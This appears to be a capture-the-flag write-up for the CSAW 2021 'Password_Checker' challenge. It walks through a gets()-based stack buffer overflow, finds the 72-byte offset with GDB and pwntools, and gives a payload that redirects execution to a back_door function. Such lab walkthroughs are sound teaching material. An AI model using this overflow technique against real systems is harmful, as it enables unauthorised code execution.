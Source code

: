 # Password_Checker
The goal of this challenge is to get a shell on a remote system and cat the flag.txt file. This is done through a standard b0f through the vulnerable `gets` function that will allow us to control execution flow in order to call `back_door`.

`Main` is a fairly boring function that only calls `init` and `password_checker` then returns.

![pic](2021-09-12_13-31.png)

`Password_checker` executes a string comparison to a hard coded value then returns. However it uses `gets` and reads an arbitray amount of data.

![pic](2021-09-12_13-30.png) 

GDB-GEF disass of `password_checker`:

![pic](2021-09-12_13-33.png)

Ghidra shows the buffer size of local_48 as 60. While 61 bytes will overflow the buffer there is still some distance to `$rip`. Through testing it is found that the total offset to `$rip` is 72.

We can find the offset inside GDB with pwntools:

Set a breakpoint immediently following `gets`: `b *0x00000000004011f1`

Then generate your cyclic pattern: `! python3 -c "import pwn; print(pwn.cyclic(100, n=8))" > cyclic`

Execute the program with cyclic as the input `r < cyclic`

Examine the value of `$rbp`: `x/s $rbp`

Query the offset in 8 byte chunks: `! python3 -c "import pwn; print(pwn.cyclic_find('aaiaaaaa', n=8))"`

The beginning of `$rbp` is 62 + 8 bytes for the length of `$rbp` to equel 70

Through manual `demsg` inspection I found there was 2 extra bytes of padding to equal a total of 72 bytes as the offset

From here we control `$rip` and write out the next 8 bytes as the location of `back_door`: 0x0000000000401172

Our final [payload](https://github.com/CR15PR/CSAW2021/blob/main/warm-up/Password_Checker/solver.py) looks like this:
  ```back_door = p64(password_elf.symbols.backdoor)
  OFFSET = 72
  junk = b"A" * OFFSET
  
  payload = [
    junk,
    back_door,
  ]

  payload = b''.join(payload)
  p.sendline(payload)```
